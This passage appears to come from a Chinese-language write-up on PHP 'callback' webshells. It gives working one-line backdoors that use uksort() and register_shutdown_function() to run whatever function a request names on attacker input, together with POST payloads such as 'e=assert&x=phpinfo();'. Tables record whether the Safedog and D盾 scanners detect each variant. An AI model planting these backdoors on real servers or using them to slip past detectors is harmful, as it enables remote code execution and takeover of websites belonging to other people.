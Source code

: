 POST 提交的数据如下：`e=YXNzZXJ0&x=phpinfo();` 这个后门在 PHP 5.3之后可以正常运行，5.3 会提示 assert 只能有1个参数，这是因为 assert 多参数是后面才开始新增的内容，PHP 5.4.8 及更高版本的用户也可以提供第四个可选参数，如果设置了，用于将 `description` 指定到 **assert()**。

| 安全狗                   | D盾                |
| :----------------------- | :----------------- |
| 1 个安全风险 PHP回调木马 | 级别 4 uasort 参数 |

####  uksort()


```php
uksort(array,myfunction);
```

uksort() 函数通过用户自定义的比较函数对数组按键名进行排序。

| 参数         | 描述                                                         |
| :----------- | :----------------------------------------------------------- |
| *array*      | 必需。规定要进行排序的数组。                                 |
| *myfunction* | 可选。定义可调用比较函数的字符串。如果第一个参数小于等于或大于第二个参数，那么比较函数必须返回一个小于等于或大于 0 的整数。 |

```php
<?php
    $e = $_REQUEST['e'];
    $arr = array('test' => 1, $_REQUEST['x'] => 2);
    uksort($arr, $e);
?>
```

POST 的内容如下：`e=assert&x=phpinfo();` 该方法也不能 Bypass 安全狗了：

| 安全狗                       | D盾             |
| :--------------------------- | :-------------- |
| 1 个安全风险 php后门回调木马 | 级别 5 已知后门 |





#### registregister_shutdown_function()

```php
register_shutdown_function ( callable $callback [, mixed $... ] ) : void
```

注册一个 `callback` ，它会在脚本执行完成或者 [exit()](https://www.php.net/manual/zh/function.exit.php) 后被调用。

```php
<?php
    $e = $_REQUEST['e'];
    register_shutdown_function($e, $_REQUEST['x']);
?>
```

| 安全狗                       | D盾             |
| :--------------------------- | :-------------- |
| 1 个安全风险 php后门回调木马 | 级别 5 已知后门 |
